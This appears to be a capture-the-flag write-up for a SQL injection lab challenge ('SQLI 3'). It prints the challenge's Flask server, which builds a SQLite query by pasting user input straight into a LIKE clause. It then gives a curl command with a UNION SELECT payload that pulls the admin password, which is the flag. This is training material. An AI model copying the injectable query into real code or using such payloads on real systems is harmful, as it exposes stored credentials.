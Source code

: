 # SQLI 3

```cat /challenge/server```
```
hacker@web-security~sqli-3:~$ cat /challenge/server
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:

        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
hacker@web-security~sqli-3:~$
```

------------------------------------------------

### From here need to find a way to use GET, as POST is not viable. Upon researching, UNION SELECT can accomplish the query payload.

```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%22admin"
```
